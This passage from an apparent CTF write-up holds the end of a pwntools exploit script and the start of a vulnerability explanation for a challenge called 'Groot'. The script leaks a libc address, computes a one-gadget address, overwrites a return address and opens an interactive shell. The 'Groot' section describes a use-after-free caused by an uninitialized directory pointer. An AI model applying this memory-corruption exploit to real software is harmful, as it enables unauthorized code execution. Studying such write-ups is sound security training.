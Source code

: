 ```python=
  Schedule(1,2)

  Schedule(4,angel)
  Schedule(5,da)
  Schedule(6,orange)

  Schedule(7,5)
  Schedule(8,3)
  Schedule(9,6)
  start()
  
  r.recvuntil("go?\n")
  r.sendline("2")
  r.recvuntil("Any questions?\n")

  r.sendline("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaa@")
  r.recvuntil("alaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaa")
  addr = u64(r.recv(6).ljust(8,"\x00"))
  print("addr = {}".format(hex(addr)))
  libc = addr  + 0x15b88c0
  print("libc = {}".format(hex(libc)))
  if (libc & 0xfff) != 0:
    print("fuck libc")
    r.close()
    exit()
  magic = libc+0x0010A38C
  print("magic = {}".format(hex(magic)))
  r.sendline("")
  time.sleep(1)
  #raw_input("@")
  r.sendline("0")
  r.recvuntil("Any questions?\n")
  ret_addr = libc - 0x15b9248
  r.sendline("D"*91 + p64(ret_addr + 0x90))
  time.sleep(0.1)
  r.sendline(p64(magic))
  r.interactive()


```

### Groot

#### Vulnerability
* Uninitialized pointer on children
Creating a directory with `mkdir` does not set children to null. Normally this does not have effect because the `rm` command clears the children field of the deleted directory. However when deleting a nested directory like `./a/b/c`, it actually only clears the children field of `a`, letting `b` and `c` removed but with the children field unchecked.
What this does is the next time we use `mkdir` the directory created has inherently a children pointing to `c`, leading to a UAF vulnerability.
